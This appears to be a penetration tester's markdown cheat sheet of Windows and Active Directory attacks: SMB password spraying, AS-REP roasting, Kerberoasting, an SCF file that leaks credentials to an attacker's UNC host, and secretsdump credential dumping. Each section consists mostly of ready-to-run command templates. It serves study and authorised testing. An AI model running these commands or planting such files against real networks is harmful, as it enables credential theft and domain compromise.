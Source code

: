 ## Miscellaneous Attacks In No Particular Order

**SMB Password Spraying**

When You have a working password and a list of userames, or a working username and a list of passwords, ``crackmapexec`` makes testing your credentials trivial.

```bash
crackmapexec smb <IP> -u <USERLIST> -p '<PASS>' --continue-on-success
crackmapexec smb <IP> -u '<USER>' -p <PASSLIST> --continue-on-success
# Authenticate with an NT hash
crackmapexec smb <IP> -u <USERLIST>-H '<NT_HASH>' --continue-on-success 
```

## Windows / Active Directory Attacks

**AS-REP Roasting**

AS-REP roasting is a technique that allows retrieving password hashes for users that have don't require Kerberos preauthentication. ``impacket`` has a utility that makes this trivial for us. I could only do a bad job explaining this attack, so I've linked much better resources below. It is important to note that this is not found often, if at all, in real world engagements.

```bash
python3 GetNPUsers.py <DOMAIN>/ -dc-ip <IP> -no-pass -usersfile <USERLIST>
```

- [Roasting AS-REPS](https://www.harmj0y.net/blog/activedirectory/roasting-as-reps/)
- [AS-REP Roasting](https://www.ired.team/offensive-security-experiments/active-directory-kerberos-abuse/as-rep-roasting-using-rubeus-and-hashcat)

**Kerberoasting**

Kerberoasting is a method for extracting service account credentials from Active Directory as a notmal user. Again, [AD Security](https://adsecurity.org/) has an insane amount of content that goes in depth to what this is, how it works, and when to use it. I won't even bother going into the detail's of the attack here, but articles from them are linked below.

``impacket`` has a utility that makes this trivial for us, ``GetUserSPNs.py``.


```bash
# Normal Authentication
python3 GetUserSPNs.py -request -dc-ip <IP> <DOMAIN>/<USER>:<PASS> -save -outputfile hashes.txt

# Authentication with NT and LM Hashes
python3 GetUserSPNs.py -request -dc-ip <IP> -hashes <LM_HASH>:<NT_HASH> <DOMAIN>/<USER> -save -outputfile hashes.txt
```

- [Cracking Kerberos TGS Tickets Using Kerberoast](https://adsecurity.org/?p=2293)
- [Dectecting Kerboasting Activity](https://adsecurity.org/?p=3458)
- [Kerberos Overview](https://adsecurity.org/?p=227)

**SCF File Attack**

An SCF *(Shell Command File)* can be used to access an attacker's UNC path. Planted inside a nwtwork share, when a user opens the ``scf`` file, Windows automatically authenicates to the server the UNC is pointing to, using the current user's credentials. We can use ``responder`` or somthing similar to harvest these credentials and crack them offline.

1) Inside a ``.scf`` file put:

```
[Shell]
Command=2
IconFile=\\<YOUR IP>\share\test.ico
[Taskbar]
Command=ToggleDesktop
```

2) Run [responder](https://github.com/lgandx/Responder) locally

```bash
responder -I <NETWORK INTERFACE>
```

3) Put your ``.scf`` file on a share and wait for a user to open it.

- [SMB Share – SCF File Attacks](https://pentestlab.blog/2017/12/13/smb-share-scf-file-attacks/)
- [Stealing Windows Credentials Using Google Chrome](https://www.defensecode.com/whitepapers/Stealing-Windows-Credentials-Using-Google-Chrome.pdf)

**Secrets/Credentials Dumping**

The impacket script ``secretsdump.py`` can be used to extract credentials and secrets from a system. There are 2 main use cases:
- Dump NTLM hash of local users (remote SAM dump)
- Extract Domain Credentials via *DC Sync*

There is a lot that can be explained on *how* this works, and  *where* this works; but this is mainly so I can remember tool syntax so I won't bother with going into those details.

```bash
python3 secretsdump.py <DOMAIN>/<USER>:<PASS>@<IP> -outputfile secretsdump
```

- [DC Sync Attacks With Secretsdump](https://www.youtube.com/watch?v=QfyZQDyeXjQ)
- [Secretsdump Demystified](https://medium.com/@benichmt1/secretsdump-demystified-bfd0f933dd9b)
